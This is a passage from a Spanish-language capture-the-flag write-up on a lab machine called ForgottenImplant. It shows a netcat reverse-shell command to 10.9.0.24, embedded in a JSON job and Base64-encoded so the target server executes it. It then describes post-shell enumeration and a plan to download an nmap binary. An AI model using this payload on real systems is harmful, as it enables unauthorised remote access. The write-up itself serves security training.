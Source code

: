 Insertamos el comando en nuestro `JSON` y lo codificamos en `Base64`.

```
{"job_id": 0, "cmd": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.24 4242 >/tmp/f"}

eyJqb2JfaWQiOiAwLCAiY21kIjogInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXxuYyAxMC45LjAuMjQgNDI0MiA+L3RtcC9mIn0=
```

Colocamos el contenido en nuestro archivo `ImxhdGVzdCI=` y esperamos un momento para que el servidor lo procese. De esta manera, logramos obtener una shell.

<figure><img src="../.gitbook/assets/ForgottenImplant/rev-shell.png" alt=""><figcaption></figcaption></figure>


{% embed url="https://0xffsec.com/handbook/shells/full-tty/" %}

# Shell /ada

Lo más notable que encontramos durante la enumeración fueron las credenciales de la base de datos en el archivo `products.py`, aunque solo contenía información sobre productos. Es probable que otro usuario tenga procesos ocultos o que no aparezcan en la red. Esto se confirma con el usuario `fi`, que elimina todos los registros, incluyendo los de `phpadmin`. Recordemos que al principio no teníamos ninguna página para visitar. Para investigar más a fondo, podríamos utilizar `nmap`, pero no está instalado en la máquina objetivo y tampoco tenemos permiso de hacerlo. Por lo tanto, debemos descargar un binario y ejecutarlo.

<figure><img src="../.gitbook/assets/ForgottenImplant/fi.png" alt=""><figcaption></figcaption></figure>
